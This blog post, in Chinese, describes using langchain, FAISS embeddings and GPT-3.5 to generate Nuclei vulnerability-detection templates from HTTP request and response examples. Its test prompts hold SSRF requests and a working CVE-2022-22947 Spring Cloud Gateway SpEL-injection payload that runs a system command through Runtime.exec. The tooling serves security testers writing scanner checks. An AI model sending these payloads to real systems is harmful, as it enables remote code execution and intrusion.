





# 我是如何用GPT自动化生成Nuclei的POC

### 前言

在之前的公众号文章中使用ChatGPT结合llama-index做的embedding查询，就想到结合Nuclei的文档来根据我的请求和响应编写对应POC。由于llama-index对可扩展性太小，且底层也是通过langchain来做的，之后就直接使用langchain来编写脚本与ChatGPT进行交互。加之上次整个步骤可能没讲太明白，就索性把框架到代码编写以及遇到的问题都过一遍。

### Embedding技术介绍

Embedding是一种专业术语，大致的意思是将某个数据内容向量化的过程。实质上，Embedding就是一串多个具有特殊意义的浮点数组成的数组。如\[0.2,0.5\]和\[0.6,0.8,0.9,...,0.6\]等，因前者数组有两个元素，因此也叫二维Embedding，后者有多个元素，也叫多维Embedding。


  

正因为机器只能接收文字形的东西，所以很多时候通过一问一答的方式来做fine-tuning或者通过embedding的方式把数据投喂给GPT。

举个例子：


  

将5个单词经过One-hot Encoding后，得到一组向量值，这个就相当于你这个单词在这个元素中代表的唯一意思。但是问题来了，cat和dog在生活中非常相似，都是宠物。所以我想让机器在学习的时候对这两个单词有着相同意思，因此就需要这两个单词的向量的欧式距离更小。



  

而通过已经训练好的模型来聚类和分析之后，可能在二维向量图上就是如此分布，cat和dog语义上非常接近，在空间上的距离也会非常接近。而且是属于生物，因此在X轴上与tree和flower同属生物的相似。而每个单词的向量其实是没有意义的，单词与单词之间的欧式距离才有实际意义。

之后碰到“i have a black cat”和“i have a black dog”就会分辨这是一句相似的话了。

Embedding就是通过这种方式，将真实世界中离散存在的物体和事物转换在本地词汇向量数据库中，映射成空间向量。再看如下图（图来源于Document.ai项目）


  

实现步骤大致如下：

1.  将本地存放的数据集使用langchain或其他框架，将数据读取并分词，调用OpenAI的Embedding模型，并把返回的Embedding数值存放在本地或向量数据库中。
    
2.  用户自己定义prefix\_prompt和问题，将问题通过OpenAI的Embedding模型进行转换，并与向量数据库中的内容进行相似度分析，将相关的Embedding指作为Payload继续发送给GPT-3.5来处理问题。
    
3.  GPT-3.5返回结果给用户。
    

至于为什么会选择Embedding方式，有两个非常好的特征：升维和降维。

-   升维：升维就好比一个物体，如手机，一开始只有触感、像素、屏幕尺寸来衡量，因此相似的产品肯定很多，就会有误差。但将维度升高之后，继而有品牌、容量、发售日期、处理器版本、操作系统是Android还是IOS等等因素。就减少了笼统特征带来的误差，加强了对某个物体的特征描述。
    
-   降维：就好比矩阵乘积的2X4的矩阵乘以一个4X3的矩阵，得到的内容一定是一个2X3的矩阵，这样就将两个矩阵的量级降维了。
    

### 结合Langchain实现POC生成

介绍完了Embedding相关理论，就搭建相关的环境来测试一下

首先需要clone一下nuclei的操作问文档，本来是想用爬虫把网页文档爬下来，后面发现官网已经写好了文档，还是markdown的方式。方便之后将文档Embedding向量化之后和Prompt一起发送给ChatGPT。

```plain
git clone https://github.com/projectdiscovery/nuclei-docs
```

这里只需要用到项目中的template-examples和templating-guide两个重要的文档，里面记录了如何编写nuclei可以理解yaml规则。

大致的目录如下

```plain
+ data
	- wiki
		- template-examples
		- templating-guide
		- get-started.md
+ Run.py
```

为了使用langchain，还需要安装几个必要的环境

```plain
pip install langchain
pip install openai
```

由于需要用到ChatGPT，所以需要os库提前设置OPENAI\_API\_KEY变量

```plain
import os
os.environ["OPENAI_API_KEY"] = "sk-xxxxxxxxxxxxxx"
```

设置好就需要将Markdown的内容读取到内存中，并进行分词

```plain
PART = "wiki"
ps = list(Path(f"./data/{PART}").glob("**/*.md"))

from langchain.text_splitter import MarkdownTextSplitter
from langchain.embeddings import OpenAIEmbeddings
from langchain.document_loaders import UnstructuredMarkdownLoader

for file in ps:
        fname = file
        loader = UnstructuredMarkdownLoader(file)
        markdown_splitter = MarkdownTextSplitter(chunk_size=2048, chunk_overlap=128)
        markdown_docs = loader.load()
        markdown_docs = [x.page_content for x in markdown_docs]
        chunks = markdown_splitter.create_documents(markdown_docs)
        for chunk in chunks: chunk.metadata["source"] = fname # need to add the source to doc
        source_chunks.extend(chunks)
```

这里是使用langchain的UnstructuredMarkdownLoader和MarkdownTextSplitter来分词，更精确表达Markdown中的内容。之后调用FAISS来进行保存，这个FAISS在这里简单带过一遍，原称全名是Facebook AI Similarity Search，其定义是一个用于密集向量的高效相似性搜索和聚类的库。可以看作类似一个Embedding之后的向量数据库。

在langchain框架中，可以通过vectorstores直接导入FAISS

```plain
from langchain.vectorstores.faiss import FAISS
```

由于之前返回的source\_chunks是document属性，因此可以使用FAISS.from\_documents()的函数来导出向量。

```plain
search_index = FAISS.from_documents(source_chunks, OpenAIEmbeddings()) 
search_index.save_local(f"{PART}.faiss")
```

通过第二个参数传递OpenAIEmbeddings模型，会调用OpenAI的Embedding模型来转换向量数据


  

导出成功之后，会在当前目录下生成一个wiki.faiss文件夹，文件夹中有index.faiss和index.pkl两个文件

有了本地的向量数据库之后，就可以通过向量来查询问题

查询的首要步骤就是加载本地的向量数据库

```plain
vectorstore = FAISS.load_local(f"{PART}.faiss",embeddings=OpenAIEmbeddings())
```

跟进load\_local函数中可以看到加载了本地的index.faiss和index.pkl两个文件

```plain
@classmethod
def load_local(cls, folder_path: str, embeddings: Embeddings) -> FAISS:
    """Load FAISS index, docstore, and index_to_docstore_id to disk.

    Args:
        folder_path: folder path to load index, docstore,
            and index_to_docstore_id from.
        embeddings: Embeddings to use when generating queries
    """
    path = Path(folder_path)
    # load index separately since it is not picklable
    faiss = dependable_faiss_import()
    index = faiss.read_index(str(path / "index.faiss"))

    # load docstore and index_to_docstore_id
    with open(path / "index.pkl", "rb") as f:
        docstore, index_to_docstore_id = pickle.load(f)
    return cls(embeddings.embed_query, index, docstore, index_to_docstore_id)
```

设置VectorDBQA对象

```plain
qa =VectorDBQA.from_chain_type(
    llm=OpenAI(
        temperature=0,
        model_name="gpt-3.5-turbo",
        max_tokens=2048
    ),
    vectorstore = vectorstore
)
```

这里的temperature参数就是设置GPT是否根据你的“语言乱语”的程度，数值越大，GPT生成的回答就越偏向自己的内容，而不是文档里的回答。

最后只需要调用"query"来查询prompt即可

```plain
result = qa({"query": questions})
print(result)
```

### Prompt to Poc

想着先用HTTP请求和响应的方式来生成

```plain
questions = """
    Please read the following HTTP request according to the operation documentation of the nuclei tool:
    ===
    GET /rest/sharelinks/1.0/link?url=https://baidu.com/ HTTP/1.1
    ===
    
    The HTTP response is as follows:
    ===
    HTTP/1.1 200 OK
    ===
    The above request response is the ssrf vulnerability of the Atlassian Confluence system that is less than version 5.8.6. The author of the discovery is TechbrunchFR, and the cve number is CVE-2021-26072. The vulnerability is the url parameter. Help me generate a nuclei poc, requiring the use of nuclei Use the built-in DNSLOG to judge the vulnerability.API to achieve OOB based vulnerability scanning with automatic Request correlation built in.And add {{BaseURL}} placeholder in front of the path for me.Don't generate too many explanations for me, I only need the complete yaml code.
    
    """
```

但是返回的结果却有点不尽人意

```plain
id:
atlassian-confluence-ssrf
info:
name:
Atlassian
Confluence
SSRF
author:
TechbrunchFR
severity:
high
description:
|    Atlassian Confluence before version 5.8.6 allows SSRF via the url parameter.
reference:
-
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26072
requests:
-
raw:
-
|        GET {{BaseURL}}/rest/sharelinks/1.0/link?url=https://{{interactsh-url}} HTTP/1.1        Host: {{Hostname}}
matchers:
-
type:
word
part:
interactsh_protocol
words:
-
"dns"
-
type:
word
part:
interactsh_request
words:
-
"GET / HTTP/1.1"
-
type:
word
part:
interactsh_response
words:
-
"HTTP/1.1 200 OK"
```

返回的状态码200并没有通过type:status的方式返回，而是直接粗略匹配HTTP/1.1 200 OK关键词，而interactsh\_protocol协议也没有使用明确的http，并且ChatGPT好像没有理解interactsh\_request和interactsh\_response的意思。

不过好在{{BaseURL}}和{{interactsh-url}}出现在了正确的位置

### 优化查询Prompt

为了尽可能减少工作量，秉着能少做一点是一点的态度把Prompt利用起来，没想到达到的效果还不错。

我先是升级了一下我的langchain

```plain
pip install --upgrade langchain
```

这里升级完之后是langchain-0.0.138的版本，老版本是langchain-0.0.115

我新建了一个prompt.py用来存放我的系统prompt，内容大致是

```plain
prompt_template="""You are an AI assistant for the open source library nuclei. The documentation is located at https://nuclei.projectdiscovery.io/templating-guide/.
You are given the following extracted parts of a long document and a question. Provide a answer with a yaml file to the documentation.
You should only use markdown file that are explicitly listed as a source in the context. Do NOT make up a yaml source code that is not listed.
Use the following pieces of context to answer the users question. 
If you don't know the answer, just say that you don't know, don't try to make up an answer.

Question: {context}
=========
Answer:"""
```

在我的主函数文件中引用该变量

```plain
from prompt import prompt_template
```

后续这里就使用了langchain的SystemMessagePromptTemplate和HumanMessagePromptTemplate来设置查询Message模板

```plain
messages = [
    SystemMessagePromptTemplate.from_template(prompt_template),
    HumanMessagePromptTemplate.from_template("{question}")
]
chat_prompt = ChatPromptTemplate.from_messages(messages)

chain_type_kwargs = {"prompt": chat_prompt}
```

使用之前还需要引用它们

```plain
from langchain.prompts import (
    ChatPromptTemplate,
    SystemMessagePromptTemplate,
    HumanMessagePromptTemplate,
)
```

在新版本之后，查询会提示你不要使用OpenAI和VectorDBQA函数，显示为已过时的函数了

在新版本可以使用ChatOpenAI和RetrievalQA的方式来代替

```plain
from langchain.chains import RetrievalQA
from langchain.chat_models import ChatOpenAI

llm = ChatOpenAI(model_name="gpt-3.5-turbo", temperature=0, max_tokens=2048)
qa =RetrievalQA.from_chain_type(
    llm=llm,
    chain_type="stuff",
    retriever=vectorstore.as_retriever(),
    return_source_documents=True,
    chain_type_kwargs = chain_type_kwargs
)
```

还有一个变化就是retriever，这个是之前加载的embedding数据，需要通过as\_retriever()进行转换才来进行检索

这里我就用本地的靶场SSRF漏洞进行测试



  

url参数是直接可以对外发起请求的

我将这两个请求内容添加到prompt中进行查询，看看ChatGPT给我返回什么内容

```plain
question_text = """
    Please read the following HTTP request according to the operation documentation of the nuclei tool:
 ···
    GET /taintwebapp/SSRFServlet?url=https://www.baidu.com HTTP/1.1
    Host: 192.168.73.229:8080
    Connection: close
    ···
    
    The HTTP response is as follows:
    ···
    HTTP/1.1 200
    Connection: close
    
    <html><head></head><body>test</body></html>
    ···
    
    The above request response is the ssrf vulnerability of the taintWebapp system that is less than version 1.0.1. The author of the discovery is wh4am1, and the cve number is CVE-2024-6666. The vulnerability is the url parameter. Help me generate a nuclei poc, requiring the use of nuclei Use the built-in DNSLOG to judge the vulnerability.API to achieve OOB based vulnerability scanning with automatic Request correlation built in.Don't generate too many explanations for me, I only need the complete yaml code.CWE id is CWE-918. Severity level is medium. Need to verify metadata.Use http interactsh_protocol and add http header in url,also mark {{Hostname}},Matches <html> content in body.
    """
```

不过经过查询还是需要改动，于是我想着在本地data文档数据中添加一个问答模板呢

问答模板也很简单，就是模拟用户提问，再生成一个标准的答案



  

为了体现GPT能举一反三，于是我就用XSS漏洞的问答案例，好跟我的SSRF漏洞模板分隔开来。

之后运行代码再次查询


  

将json字符串里面的result提取出来，并将\\n字符串替换成换行符



  

可以看到生成的yaml文件几乎是比较正确的，比之前的好多了



  

用工具验证的结果也是正确的

不过！这里还有个小问题，就是nuclei只会讲{{interactsh-url}}替换的dnslog地址是没有http头的（虽然我已经在prompt中明确指出在url地址添加http标头），这里也是生成后的代码唯一需要改的地方。


  

nuclei自带的dnslog挺慢的，这里我就修改超时时间为10秒，方便验证

具体生成的代码还是挺不错的，适合辅助安全人员编写poc

为了测试实战性怎么样，打算搞个最近出现的洞进行测试，这里就选择CVE-2022-22947的SPEL表达式注入漏洞进行测试

验证漏洞首先会通过POST进行发包

```plain
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8096
Content-Type: application/json
Content-Length: 185

{
	"id":"hacktest",
	"filters":[{
		"name":"RewritePath",
		"args":{
			"_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
			"_genkey_1": "/${path}"
		}
	}]
}
```

之后返回的内容如果是201 Created，就可以再继续访问/refresh来刷新路由触发SPEL表达式

因此我判断漏洞的步骤就是发送POST请求，并判断返回结果是否为201 Created，如果是则显示有漏洞

Prompt如下：

```plain
question_text = """
    Please read the following HTTP request according to the operation documentation of the nuclei tool:
    ···
    POST /actuator/gateway/routes/hacktest HTTP/1.1
    Host: 192.168.73.229:8080
    Content-Type: application/json
    Content-Length: 185

    {
        "id":"hacktest",
        "filters":[{
            "name":"RewritePath",
            "args":{
                "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
                "_genkey_1": "/${path}"
            }
        }]
    }
    ···

    The HTTP response is as follows:
    ···
    HTTP/1.1 201 Created
    ···

    The above request response is the spel injection vulnerability in spring cloud gateway versions prior to 3.1.1+ and 3.0.7+. Severity level is High.The author of the discovery is VMware, and the cve number is CVE-2022-22947. Help me generate a nuclei poc, requiring the use of nuclei Use the built-in DNSLOG to judge the vulnerability.And judging that the HTTP response status code is 201 Created.Don't generate too many explanations for me, I only need the complete yaml code.Use the dns protocol of interactsh_protocol, and modify the cmd command parameter to ping interactsh address,also mark {{Hostname}}.
    """
```

生成的内容如下：


  

除了Hostname后面跟了8080端口之外，基本上挑不出毛病，甚至可以说非常正确！

经过测试，Poc的生成完全是没有问题，如果需要一些复杂的函数，估计需要在data中添加相关的问答Markdown。而这种Embedding的方法是目前结合安全产品成本最低，也是目前可以发展的一个突破点。

尽管如此，但是还是存在不少问题，如

1.  查询数据可能还有偏差，做不到百分百正确。
    
2.  GPT-3.5限制Token长度为4097，Prompt太短通用性不高，太长又有限制。
    

### 查询数据不准确难题

可以通过数据优化、自训练Embedding模型、LLM的fine-tune三个维度来进行修正

#### 基于数据优化

可以直接在问答上面入手，提供一个问答场景，在提问的时候直接将所需的问答环境写进本地的知识库中，之后向量相似度计算到相关内容的时候GPT也能回答非常专业。或是通过LDA、LSA算法生成主题，并根据主题向量进行计算。

#### 自训练的Embedding模型

可通过Word2vec或text2vec的模型基础上再进行训练：https://github.com/shibing624/text2vec

text2vec项目中也有说到如何通过训练出text2vec-base-chinese模型

#### 通过自身大模型微调

自己通过编写问答方式来微调，这种效果虽然明显，但是需要硬件支持较高，且每次微调的时间成本大。

#### 使用Pipeline流水线打磨

由于Nuclei自带有-validate参数可以验证模板的语法错误。具体步骤就是通过生成好的yaml文件过一遍validate，如果有错误，将yaml内容和错误信息再继续投给ChatGPT，以此往复。可是如果遇到上述SSRF的interactsh-url地址前面没有带上HTTP协议头的问题，就需要人为排查或多投相关问答案例的模板，让向量查询的prompt和问题模板能关联上。

### 查询Token限制问题

关于Token限制的问题，其实可以用自己fine-tune的模型来做，比如清华开源的ChatGLM，或者是llama.cpp和斯坦福开源的alpaca。网上的微调案例很多，感兴趣的读者可以上GitHub看看。包括现在也有Langchain-ChatGLM的项目，可以根据自己的实际场景来做向量和微调的结合产物。

当然，有“实力”的用户也可以直接用GPT-4的API来查询，不仅不需要微调，甚至代码理解能力可能还更好。

### 写在最后

大模型的发展肯定是未来一个重要的趋势，虽然现在很多模型微调和运行需要一定的GPU数量级支持，但现在AIGC的模式带来的变革是以肉眼可见的方式，相信在不久的将来，大模型会像计算机一样出现类似个人PC的局面。

再一个就是安全方向的发展肯定跟传统的安全工具息息相关，如蜜罐和LLM大模型结合后的自动研判、RASP和CodeQL的联动、或者是参考文章《用 LLM 降低白盒误报及自动修复漏洞代码》：https://mp.weixin.qq.com/s/leLFECUaNOGbjsN\_8mcXrQ 文中介绍的semgrep的实践和DevOps流水线中自动提交pr修复bug的理念。

完整的代码已经上传至GitHub：https://github.com/sf197/nuclei\_gpt

### Reference

\[1\].https://mp.weixin.qq.com/s/leLFECUaNOGbjsN\_8mcXrQ

\[2\].https://www.bilibili.com/video/BV1GN411T7dC

\[3\].https://www.bilibili.com/video/BV1n4411g7Y5

\[4\].https://github.com/GanymedeNil/document.ai

\[5\].https://qiankunli.github.io/2022/03/02/embedding.html

\[6\].https://github.com/hwchase17/langchain/issues/2436

\[7\].https://toniseldr.hashnode.dev/integrando-o-chatgpt-com-sua-base-de-conhecimento-interna-e-plataforma-de-perguntas-e-respostas

\[8\].https://python.langchain.com/en/latest/modules/chains/index\_examples/vector\_db\_qa\_with\_sources.html?highlight=RetrievalQAWithSourcesChain

\[9\].https://github.com/kldarek/LLM-experiments/blob/2df6e55bb911bb41c3d9db00f68b56423b633e02/eval\_chat.py

\[10\].https://github.com/projectdiscovery/nuclei-templates/blob/main/vulnerabilities/confluence/confluence-ssrf-sharelinks.yaml

\[11\].https://github.com/jakedahn/cloudflare-agent-qa/blob/main/ingest.py